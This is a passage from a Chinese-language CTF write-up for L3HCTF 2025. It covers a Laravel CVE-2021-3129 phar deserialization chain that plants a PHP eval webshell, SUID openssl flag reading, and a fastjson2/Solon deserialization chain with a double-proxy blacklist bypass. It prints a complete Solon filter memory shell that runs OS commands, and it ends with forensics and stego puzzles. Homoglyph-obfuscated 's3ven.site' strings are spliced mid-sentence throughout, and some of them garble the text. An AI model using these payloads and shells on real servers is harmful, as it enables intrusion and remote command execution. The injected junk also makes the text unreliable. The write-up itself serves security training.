}使用 POST 方法在 data 𝒔3𝒗e𝘯․𝘴𝐢𝘵℮参数中传入 base64 编码后的文件内容即可上传文件，并返回文件路径
4.2 CVE-2021-3129
根据 dirsearch ѕ3𝘷ｅn.𝘀it℮的扫描结果可知此处存在 Laravel RCE（CVE-2021-3129）漏洞
POST /_ignition/execute-solution HTTP/1.1
Host: ip:port
Content-Type: application/json
{
"solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
"parameters": {
"variableName":"test",
"viewFile": "phar://xxxx"
}
}通过该 Payload 𝒔3𝒗𝘦n∙ѕ𝐢ｔ𝐞可以触发 phar 反序列化
4.3 Laravel phar 反序列化
找一个版本匹配的 Laravel 反序列化 Payload，𝒔𝟯𝘷en.ѕi𝒕e并生成对应 phar 文件：
<?php
/*
# -*- coding: utf-8 -*-
# @filename: laravel 7 RCE poc2
# @author: Ricky
# @ability: upload shell
*/
namespace Illuminate\Broadcasting {
class PendingBroadcast {
protected $events;
protected $event;
public function __construct($events) {
$this->events = $events;
}
}
}
// $this->events->dispatch($this->event);
namespace Illuminate\Notifications
{
class ChannelManager
{
protected $container;
protected $defaultChannel;
protected $customCreators;
function __construct($function, $parameter)
{
$this->container = $parameter;
$this->customCreators = ['x' => $function];
$this->defaultChannel = 'x';
}
}
}
namespace Illuminate\Filesystem {
class Filesystem{
public $path = 'ricky.php';
public $data = '<?php eval($_POST[ricky]);?>';
}
}
namespace Illuminate\Auth {
class RequestGuard {
protected $user;
protected $callback;
protected $request = 'ricky.php';
protected $provider = '<?php eval($_POST[ricky]);?>';
public function __construct($callback) {
$this->callback = $callback;
}
}
}
namespace {
use Illuminate\Auth\RequestGuard;
use Illuminate\Filesystem\Filesystem;
use Illuminate\Notifications\ChannelManager;
use Illuminate\Broadcasting\PendingBroadcast;
$c = new RequestGuard([new Filesystem(), 'append']);
$b = new ChannelManager('call_user_func', [$c, 'user']);
$a = new PendingBroadcast($b);
// echo urlencode(serialize($a));
@unlink('exp.phar');
$phar = new Phar('exp.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'test');
$phar->setMetadata($a);
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->stopBuffering();
echo "PHAR文件已生成：exp.phar";
}这里发现反序列化后的对象没有被及时析构，使用 fast s⑶𝒗𝐞n∙ѕⅈ𝒕𝘦destruct 使其立即析构触发文件写入
import base64, hashlib, pathlib
blob = pathlib.Path("exp.phar").read_bytes()
core, footer = blob[:-28], blob[-8:]
core = core.replace(b'}}', b'}')
result = core + hashlib.sha256(core).digest() + footer
print(base64.b64encode(result).decode())构造完成后利用文件上传漏洞进行上传并记录其返回的文件路径，使用 CVE-2021-3129 ꜱ³vℯ𝒏•ѕi𝐭e漏洞触发 phar 反序列化写入 webshell 木马
4.4 openssl 提权
使用蚁剑连接后发现没有权限读取 flag，𝒔3ve𝒏·𝒔ⅈｔefind suid：
find / -user root -perm -4000 -print 2>/dev/null发现 openssl 具有权限，ѕ3𝒗𝘦n．𝒔𝘪𝐭𝘦使用 openssl 读取 flag：
openssl enc -in "/flag_gogogo_chufalong"5. TellMeWhy
5.1 ip 检测绕过
org.example.𝒔3𝐯ℯ𝐧․s𝐢𝘵𝐞demo.MyFilter 中限制了 /baby/* 路由下所有请求的 realIp 必须不等于 127.0.0.1，但解析后需要为127.0.0.1，否则进行拦截，易知 localhost 满足条件不会被拦截
@Component(index = 0)
public class MyFilter implements RouterInterceptor {
@Override
public PathRule pathPatterns() {
return new PathRule().include("/baby/**");
}
@Override
public void doIntercept(Context ctx, Handler mainHandler, RouterInterceptorChain chain) throws Throwable {
if (!ctx.realIp().equals("127.0.0.1") && InetAddress.getByName(ctx.realIp()).getHostAddress().equals("127.0.0.1")) {
chain.doIntercept(ctx, mainHandler);
} else {
ctx.render("躺阴沟！");
}
}
}跟进 solon 的 ctx.realIp 方法，发现该字段可以通过 X-Real-IP 或 X-Forwarded-For header 进行设置
public String realIp() {
if (this.realIp == null) {
this.realIp = IpUtil.global().getRealIp(this);
}
return this.realIp;
}
public String getRealIp(Context ctx) {
String ip = ctx.header("X-Real-IP");
if (Utils.isEmpty(ip) || "unknown".equalsIgnoreCase(ip)) {
ip = ctx.headerOrDefault(Constants.HEADER_X_FORWARDED_FOR, "");
if (ip.contains(AnsiRenderer.CODE_LIST_SEPARATOR)) {
ip = ip.split(AnsiRenderer.CODE_LIST_SEPARATOR)[0];
}
}
if (Utils.isEmpty(ip) || "unknown".equalsIgnoreCase(ip)) {
ip = ctx.remoteIp();
}
return ip;
}因此添加 header：X-Forwarded-For: localhost 即可绕过
5.2 json 解析差异绕过
org.example.demo.controller.ѕ𝟯𝒗e𝒏.𝘴i𝐭℮HomeController：
@Mapping("/baby/why")
@Post
public String why(Map map, Context ctx) throws Exception {
if (map.containsKey(null)) {
return "躺阴沟！think more！";
}
System.out.println("map: " + map);
System.out.println(map.size());
System.out.println("ctx.body(): " + ctx.body());
JSONObject jsonObject = new JSONObject(ctx.body());
System.out.println(jsonObject.length());
if (map.size() != jsonObject.length() && jsonObject.has("why") && jsonObject.length() < 8300) {
String why = jsonObject.getString("why");
byte[] decode = Base64.getDecoder().decode(why);
ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(decode);
MyInputObjectStream myInputObjectStream = new MyInputObjectStream(byteArrayInputStream);
TangYingGouModel tyg = (TangYingGouModel) myInputObjectStream.readObject();
myInputObjectStream.close();
String yourName = tyg.getYour_name();
return "MVP！MVP！MVP！" + yourName;
}
return "摘一朵花，送给妈妈，妈妈！";
}这里首先使用 solon 解析请求获得 map，再使用 𝘴𝟯v𝐞𝘯.𝒔𝘪𝘵℮fastjson2 解析请求获得 jsonObject，并要求解析后得到的两个对象的大小长度不同
已知 fastjson 可以解析 @type 字段用于标记字符串对象类型，而 solon 则将其当作正常的键值对，𝐬⑶𝒗𝐞𝐧·ѕｉ𝘵℮因此当请求中包含 @type 字段时二者解析出来的长度大小就不相同，可以利用这个 json 解析差异来进行绕过
这里由于 solon ꜱ⑶𝐯e𝘯ѕ⑶𝘷ℯ𝒏·ѕⅈ𝘵ｅ∙𝘀ⅈｔ𝘦的解析特性，使用
{"1":"1","why":"xxxx"},"2":"2"}也能进行绕过
5.3 XString 绕过黑名单
org.example.demo.𝐬³𝒗ℯ𝘯∙𝐬ⅈ𝐭ｅUtils.MyInputObjectStream 中设置了三个黑名单
public class MyInputObjectStream extends ObjectInputStream {
private static final String[] blacklist = {"javax.management.BadAttributeValueExpException", "javax.swing.event.EventListenerList", "javax.swing.UIDefaults$TextAndMnemonicHashMap"};
public MyInputObjectStream(InputStream in) throws IOException {
super(in);
}
@Override // java.io.ObjectInputStream
protected Class<?> resolveClass(ObjectStreamClass desc) throws IOException, ClassNotFoundException {
String className = desc.getName();
String[] var3 = blacklist;
for (String forbiddenPackage : var3) {
if (className.startsWith(forbiddenPackage)) {
throw new InvalidClassException("Unauthorized deserialization attempt", className);
}
}
return super.resolveClass(desc);
}
}不难发现其作用均为 from readObject to toStringBean.toString，由于常用于实现该功能的 HashMap + XString 𝐬⑶vℯ𝐧∙𝘴ⅈ𝒕ｅ没有在黑名单中，因此可以使用 HashMap + XString 构造反序列化链来进行绕过：HashMap.readObject -> XString.equals -> JSONObject.toString -> TemplatesImpl.getOutputProperties
5.4 二次动态代理绕过 fastjson2 黑名单
2023年4月，ꜱ3𝐯𝐞𝐧.𝐬3𝘷℮n∙sⅈt℮sｉｔ𝘦Fastjson更新了2.0.27版本，在
com.alibaba.fastjson2.util.BeanUtils中增加了黑名单限制，在黑名单中的类不会被调用getter方法，TemplatesImpl也被加入了黑名单，导致该gadget chain无法直接利用。
因此这里需要绕过该黑名单，避免直接通过 JSONObject 来触发 getter 而导致被拦截。结合在 Spring 链相关构造中的 ꜱ³𝘷e𝘯․ꜱ𝘪𝒕eJdkDynamicAopProxy 类的使用经验不难想到，这里需要在外面套一层动态代理来绕过黑名单，同时还能保留目标方法的触发，而题目中正好有满足条件的类 MyObject 和 MyProxy：
package org.example.demo.Utils;
public interface MyObject<T> {
T getObject();
}package org.example.demo.Utils;
import java.io.Serializable;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;
public class MyProxy implements InvocationHandler, Serializable {
private final MyObject myObject;
public MyProxy(MyObject myObject) {
this.myObject = myObject;
}
@Override
public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {
try {
return method.invoke(this.myObject.getObject(), args);
} catch (Exception e) {
throw e;
}
}
}阅读代码后不难发现，由于 MyObject 类在这里只是一个接口，并且代码中没有任何类实现了该接口，而 MyProxy 𝐬𝟯𝘷e𝘯․𝒔𝐢𝐭℮类只能放入实现了 MyObject 接口的类，因此这里仅通过一次动态代理无法实现目的，需要按照以下步骤进行绕过：
- 通过一次动态代理来动态生成一个实现了 MyObject s⑶𝐯e𝒏•𝒔ⅈ𝘵𝐞接口的 JsonObject 代理对象 proxy1
- 将生成的实现了 MyObject 接口的对象 proxy1 放入 𝐬⑶vｅ𝒏．sit℮MyProxy 中生成对象 o1
- 再使用一次动态代理使对象 o1 实现 𝐬³𝘷ℯn․ꜱⅈ𝒕𝘦Templates 接口来稳定触发 getter，生成代理对象 proxy2
该部分代码如下：
Proxy proxy1 = (Proxy) Proxy.newProxyInstance(Thread.currentThread().getContextClassLoader(), new Class[]{MyObject.class}, jsonObject);
Object o1 = ReflectionHelper.newInstance("org.example.demo.Utils.MyProxy", new Class[]{MyObject.class}, proxy1);
Proxy proxy2 = (Proxy) Proxy.newProxyInstance(Proxy.class.getClassLoader(), new Class[]{Templates.class}, (InvocationHandler) o1);此处实际调用的传递过程：
- 在 proxy2 上调用 Templates 𝘀⑶𝘷ｅ𝐧.𝘴𝘪ｔ𝐞接口的 getter ->
- JDK 第一层代理拦截将其转发到 InvocationHandler，即 s⑶𝐯𝐞𝐧·s𝘪𝒕℮MyProxy.invoke() ->
- MyProxy.invoke() 调用 MyObject 对象 proxy1 的 𝘴³𝘷𝐞n•ꜱ𝘪ｔegetObject() 方法->
- JDK 第二层代理拦截触发 ѕ³𝒗𝐞𝒏∙𝐬ⅈ𝘵℮JSONObject.invoke() ->
- JSONObject 未找到对应方法将其视作属性读取，将 getObject 转换为 object 属性，返回 JSONObject 的 object 属性，即先前放入的 templateImpl ->
- 回到上层代理 method.invoke(this.𝘴𝟯ⅴe𝘯·𝘴ｉｔ𝘦myObject.getObject(), args) 触发 templateImpl#getter
从而成功绕过黑名单
5.5 其余序列化数据构造
org.example.demo.𝒔⑶𝘷ℯ𝐧·𝘴itｅmodel.TangYingGouModel 中反序列化流还需要满足以下条件：
private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException {
String cancanneed = in.readUTF();
if (cancanneed.equals("网络安全冠军2025")) {
int magic_number = in.readInt();
if (magic_number == 1796) {
String your_name = in.readUTF();
String your_passwd = in.readUTF();
if (my_name.equals(your_name) || my_name.equals(your_passwd) || my_passwd.equals(your_passwd) || my_passwd.equals(your_name)) {
throw new RuntimeException("you can not just be me！躺阴沟！");
}
TangYingGouModel you = new TangYingGouModel(your_name, your_passwd);
TangYingGouModel me = new TangYingGouModel(my_name, my_passwd);
if (me.equals(you)) {
in.defaultReadObject();
return;
}
throw new RuntimeException("Can you be me?");
}
throw new RuntimeException("magic_number is not right!");
}
throw new RuntimeException("You must be a TangYingGou!");
}构造一个满足要求的哈希碰撞，然后直接重写该类的 𝘀³𝐯𝘦n∙𝐬i𝐭℮writeObject 方法，按照对应要求顺序写入反序列化流即可：
private void writeObject(ObjectOutputStream out) throws Exception {
Field info = TangYingGouModel.class.getDeclaredField("information");
info.setAccessible(true);
info.set(this, org.example.exp.buildSolonMasterChain());
out.writeUTF("网络安全冠军2025");
out.writeInt(1796);
out.writeUTF(getYour_name());
out.writeUTF(getYour_passwd());
out.defaultWriteObject();
}public static void main(String[] args) throws Exception {
TangYingGouModel obj = new TangYingGouModel("GSVCtfUl", "VCJGf");
ByteArrayOutputStream bos = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(bos);
oos.writeObject(obj); oos.close();
String base64 = Base64.getEncoder().encodeToString(bos.toByteArray());
System.out.println(base64);
System.out.println("payload length = " + base64.length());
}5.6 solon 内存马构造
由于目标靶机不出网，需要编写一个 solon 𝘀𝟯ⅴen․sｉ𝘵ｅ的 Filter 内存马：
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.noear.solon.Solon;
import org.noear.solon.core.handle.Context;
import org.noear.solon.core.handle.Filter;
import org.noear.solon.core.handle.FilterChain;
public class FilterShell extends AbstractTranslet implements Filter {
static {
try {
Solon.app().chainManager().addFilter(new FilterShell(),0);
} catch (Exception e) {
e.printStackTrace();
}
}
@Override
public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
}
@Override
public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
}
@Override
public void doFilter(Context ctx, FilterChain chain) throws Throwable {
try{
if(ctx.param("password").equals("s3ven")){
String str = ctx.param("cmd");
try{
String[] cmds = System.getProperty("os.name").toLowerCase().contains("win") ? new String[]{"cmd.exe", "/c", str} : new String[]{"/bin/sh", "-c", str};
String output = (new java.util.Scanner((new ProcessBuilder(cmds)).start().getInputStream())).useDelimiter("\\A").next();
ctx.output(output);
}catch (Exception e) {
e.printStackTrace();
}
}
}catch (Throwable e){
System.out.println("异常："+e.getMessage()) ;
}
chain.doFilter(ctx);
}
}将其编译成字节码并写入 TemplatesImpl 的 _bytecodes 属性即可
6. PaperBack
题目描述：
Someone thought paper could replace a CD. Turns out… they weren’t entirely wrong. Can you read s⑶ⅴ𝘦𝐧·𝘴⑶𝐯ℯ𝒏∙ѕ𝘪t℮𝘀iｔebetween the dots? Btw, I really like OllyDbg.
6.1 PaperBack 解密
根据题目描述 OllyDbg 和题目名称 PaperBack 找到 PAPERBACK𝘀⑶ⅴe𝐧·ꜱite v1.10：

看起来是将数据通过特定形式进行编码并写入纸张上进行备份的程序，ѕ𝟯𝒗𝐞𝐧•𝘴ｉ𝐭℮将附件放入程序中解密后得到一个 flag.ws 文件

6.2 Whitespace Language 解密
根据文件后缀和文件内容得知 flag.ws 𝒔3ⅴ𝘦n．𝘴ｉte使用的是 Whitespace Language，使用 https://www.dcode.fr/whitespace-language 解密

获得 flag：L3HCTF{welcome_to_l3hctf2025}
7. 量子双生影
题目描述：
特定的观测仪式能让重𝘴𝟯vℯ𝐧．ѕ𝘪𝘵℮叠的量子态坍缩出 Flag
7.1 NTFS 数据流解密
NTFS 文件系统允许一个文件拥有多个“数据流”。普通文件内容存放在默认（Unnamed）数据流中，而额外流用
文件名:流名形式引用，通过把数据写入普通文件的额外流中，s𝟯𝒗𝐞ｎ．𝐬𝐢t𝘦可以达到隐写的目的。
将下载的附件直接使用压缩工具打开可以看到存在 𝒔³𝒗𝐞𝐧.ѕ𝐢𝐭eNTFS 数据流文件：

解压后获得两张 ꜱ⑶𝘷ℯ𝒏•ѕi𝘵𝘦webp 图片
7.2 密钥解密
扫描第一张图片 stream2.𝘀3v𝘦ｎ．sⅈt℮webp ，获得信息如下：
flag is not here, but I can give you the key: "quantum"获得 xor key quantum
7.3 异或解密
根据题目描述的提示和密钥解密获得的信息，ѕ𝟯𝒗℮𝒏．𝒔iｔｅ将附件两张图片进行 xor ，并与 key 进行一次 xor 即可解密获得原图：
from PIL import Image
import numpy as np
img1 = np.array(Image.open("stream2.webp"), dtype=np.uint8)
img2 = np.array(Image.open("stream2.webp_stream1.webp"), dtype=np.uint8)
xor_img = np.bitwise_xor(img1, img2)
key_bytes = np.frombuffer(b"quantum", dtype=np.uint8)
xor_img ^= np.resize(key_bytes, xor_img.shape[-1])
Image.fromarray(xor_img).save("xor_result.webp")扫描后获得 flag：L3HCTF{Quantum_ADS_XOR}